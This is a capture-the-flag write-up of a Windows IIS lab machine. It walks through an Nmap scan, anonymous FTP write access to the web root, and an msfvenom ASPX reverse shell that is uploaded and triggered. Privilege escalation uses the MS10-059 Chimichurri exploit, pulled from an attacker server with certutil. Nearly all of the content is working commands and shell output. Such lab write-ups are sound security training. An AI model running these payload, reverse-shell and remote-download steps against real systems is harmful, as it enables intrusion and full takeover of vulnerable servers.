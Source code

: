 ## Full TCP Port Scan (Aggressive) [113s]

```bash
sudo nmap -Pn -p- -A -T4 10.129.49.18
```

```text
Starting Nmap 7.95 (https://nmap.org) at 2025-03-06 05:44 EST
Nmap scan report for 10.129.49.18
Host is up (0.031s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 113.28 seconds
```

## Enumeration

### FTP Anonymous Access
Connect to FTP and list files:
```bash
ftp 10.129.49.18
```
```text
Name: anonymous
Password: (any email)
230 User logged in.
ftp> ls
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
```

### Web Server (Port 80)
- Files match FTP content at `http://10.129.49.18/`
- Web root is writable via FTP anonymous access

## Exploitation

### Reverse Shell Upload
Generate ASPX web shell:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.20 LPORT=1234 -f aspx > shell.aspx
```

Upload via FTP:
```bash
ftp> put shell.aspx
226 Transfer complete.
```

Start listener:
```bash
nc -lvnp 1234
```

Trigger shell:
```bash
curl http://10.129.49.18/shell.aspx
```

### Reverse Shell Connection
```text
connect to [10.10.16.20] from (UNKNOWN) [10.129.49.18] 49158
Microsoft Windows [Version 6.1.7600]
c:\windows\system32\inetsrv>
```

### User Flag
Located in babis' desktop:
```cmd
c:\> type c:\Users\babis\Desktop\user.txt
9ecd**********************
```

## Privilege Escalation

### System Analysis
- Windows Version: 6.1.7600 (Windows 7/2008 R2)
- Vulnerable to MS10-059 (Chimichurri)

### Exploit Transfer
On attacker machine:
```bash
python3 -m http.server 8888
```

On target:
```cmd
certutil -urlcache -f http://10.10.16.20:8888/Chimichurri.exe chimi.exe
```

### Privilege Escalation Execution
Start elevated listener:
```bash
nc -lvnp 1235
```

Execute exploit:
```cmd
chimi.exe 10.10.16.20 1235
```
```text
/Chimichurri/-->This exploit gives you a Local System shell <BR>
/Chimichurri/-->Changing registry values...<BR>
/Chimichurri/-->Got SYSTEM token...<BR>
/Chimichurri/-->Running reverse shell...<BR>
/Chimichurri/-->Restoring default registry values...<BR>
```

### Root Shell
```text
connect to [10.10.16.20] from (UNKNOWN) [10.129.49.18] 49172
Microsoft Windows [Version 6.1.7600]
c:\Windows\Temp> whoami
nt authority\system
```

### Root Flag
Located in Administrator's desktop:
```cmd
c:\> type c:\Users\Administrator\Desktop\root.txt
e621a**********************
```
